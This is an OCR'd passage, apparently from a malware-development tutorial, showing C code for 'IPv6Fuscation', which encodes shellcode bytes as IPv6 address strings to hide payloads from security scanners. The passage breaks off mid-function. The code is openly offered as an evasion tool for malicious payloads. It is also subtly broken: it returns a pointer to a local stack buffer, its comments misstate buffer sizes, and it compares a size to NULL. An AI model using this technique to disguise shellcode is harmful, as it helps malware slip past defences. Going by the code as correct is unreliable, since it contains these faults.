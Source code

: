 ### IPv6Fuscation Implementation

When using IPv6Fuscation, the shellcode should be a multiple of 16. Again, it's possible to create a function that pads the shellcode if it doesn't meet that requirement.

```c
// Function takes in 16 raw bytes and returns them in an IPv6 address string format
char* GenerateIpv6(int a, int b, int c, int d, int e, int f, int g, int h, int i, int j, int k, int l, int m, int n, int o, int p) {

	// Each IPv6 segment is 32 bytes
	char Output0[32], Output1[32], Output2[32], Output3[32];

	// There are 4 segments in an IPv6 (32 * 4 = 128)
	char result[128];

	// Generating output0 using the first 4 bytes
	sprintf(Output0, "%0.2X%0.2X:%0.2X%0.2X", a, b, c, d);

	// Generating output1 using the second 4 bytes
	sprintf(Output1, "%0.2X%0.2X:%0.2X%0.2X", e, f, g, h);

	// Generating output2 using the third 4 bytes
	sprintf(Output2, "%0.2X%0.2X:%0.2X%0.2X", i, j, k, l);

	// Generating output3 using the last 4 bytes
	sprintf(Output3, "%0.2X%0.2X:%0.2X%0.2X", m, n, o, p);

	// Combining Output0,1,2,3 to generate the IPv6 address
	sprintf(result, "%s:%s:%s:%s", Output0, Output1, Output2, Output3);

	// Optional: Print the 'result' variable to the console
	// printf("[i] result: %s\n", (char*)result);

	return (char*)result;
}


// Generate the IPv6 output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateIpv6Output(unsigned char* pShellcode, SIZE_T ShellcodeSize) {
	// If the shellcode buffer is null or the size is not a multiple of 16, exit
	if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 16 != 0){
		return FALSE;
	}
	printf("char* Ipv6Array [%d] = { \n\t", (int)(ShellcodeSize / 16));
	
	// We will read one shellcode byte at a time, when the total is 16, begin generating the IPv6 address
	// The variable 'c' is used to store the number of bytes read. By default, starts at 16.
	int c = 16, counter = 0;
	char* IP = NULL;
	
	for (int i = 0; i < ShellcodeSize; i++) {
		// Track the number of bytes read and when they reach 16 we enter this if statement to begin generating the IPv6 address
		if (c == 16) {
			counter++;

			// Generating the IPv6 address from 16 bytes which begin at i until [i + 15]
			IP = GenerateIpv6(
				pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3],
				pShellcode[i + 4], pShellcode[i + 5], pShellcode[i + 6], pShellcode[i + 7],
```